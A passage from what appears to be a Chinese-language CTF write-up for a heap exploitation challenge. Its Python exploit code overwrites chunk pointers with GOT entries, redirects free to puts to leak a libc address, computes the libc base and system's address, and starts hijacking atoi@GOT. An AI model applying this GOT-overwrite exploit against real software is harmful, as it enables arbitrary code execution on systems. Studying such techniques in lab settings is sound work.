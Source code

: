 

```python
py = ''
py += 'a'*0x18   #填充
py += p64(atoi_got)	#0号块
py += p64(atoi_got)	#1号块
py += p64(free_got)	#2号块
py += p64(9)*6 #填充
edit(0,0x60,py)
```


![upload successful](/images/pasted-202.png)


这一步会让堆块指向我们填入的地址。再次edit堆块的时候，其实edit的是填入地址的值。

```python
edit(2,0x10,p64(puts_plt)) #将原来的free改成puts_plt

free(0) #其实就是输出0号块
rc(1)
addr = u64(rc(6).ljust(8,'\x00'))-libc.sym["atoi"] #减掉偏移
print "addr--->"+hex(addr) #输出的是基地址
system = addr + libc.sym["system"] #system的地址
```

地址如下：

![upload successful](/images/pasted-203.png)

接下来将1号块改为`system`的地址`edit(1,0x10,p64(system))`

![upload successful](/images/pasted-204.png)

